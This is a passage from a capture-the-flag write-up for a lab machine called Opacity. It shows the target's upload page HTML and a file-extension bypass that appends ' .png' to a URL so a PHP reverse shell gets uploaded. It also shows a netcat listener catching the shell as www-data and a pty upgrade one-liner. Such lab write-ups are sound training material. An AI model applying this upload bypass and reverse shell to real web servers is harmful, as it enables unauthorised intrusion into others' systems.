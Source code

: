 The `cloud` endpoint seemed to be an image upload webpage. <br/>
```html
<!DOCTYPE html>
<html>
<head>
<link rel="stylesheet" href="style.css">
<title>Opacity Storage</title>
</head>
<body>
<h1><strong>5 Minutes File Upload</strong> - Personal Cloud Storage</h1>
	<div class="form-group">
<p style="text-align:center;"><img src="folder.png" alt="Folder" width="40%" height="40%"></p>
    <label for="title"><span>External Url:</span></label>
    <form name='upload' method='post' action="/cloud/">
        <input type='text' id='url' name='url'  class="form-controll"/><br>
</div>
	<div class="form-group">
    <button type="submit">Upload image
</form>
    
  </div>

  </button>
</form>
</div>
</body>
</html>
```

Seeing as I could use an external URL I setup a small http server using `python3 -m http.server 80`. <br/>
Knowing that I could only upload images I tried to bypass the extension block by adding `.png` at the end of my external URL. <br/>
```
http://X.X.X.X/rev_shell.php .png
```

Using the external image path above I was able to upload the `PHP reverse shell` and access the uploaded `.php` file at the location `http://X.X.X.X/cloud/images/rev_shell.php`. <br/>
Before accessing the webpage I setup a netcat listener. <br/>
```sh
nc -lnvp 9001
listening on [any] 9001 ...
connect to [X.X.X.X] from (UNKNOWN) [10.10.98.27] 57872
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 10:05:51 up 43 min,  0 users,  load average: 0.00, 0.09, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@opacity:/$ 
```
